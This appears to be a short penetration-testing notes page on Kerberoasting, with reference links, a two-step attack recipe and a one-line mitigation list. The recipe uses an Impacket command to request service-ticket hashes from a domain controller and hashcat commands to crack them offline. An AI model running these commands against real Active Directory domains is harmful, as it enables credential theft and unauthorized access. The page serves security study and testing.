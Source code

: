 # Kerberoasting

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)
* [https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
* [https://www.youtube.com/watch?v=LmbP-XD1SC8&t=30s&ab\_channel=SANSOffensiveOperations](https://www.youtube.com/watch?v=LmbP-XD1SC8&t=30s&ab_channel=SANSOffensiveOperations)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)
* [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)
* [https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
* [https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/](https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/)
* [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)

![](../../../.gitbook/assets/kerberoasting-overview.png)

## Kerberoasting Attack Overview

#### Step 1: Get SPNs \(Service Principal Name\), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

#### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

## Mitigation

* strong passwords
* least privilege

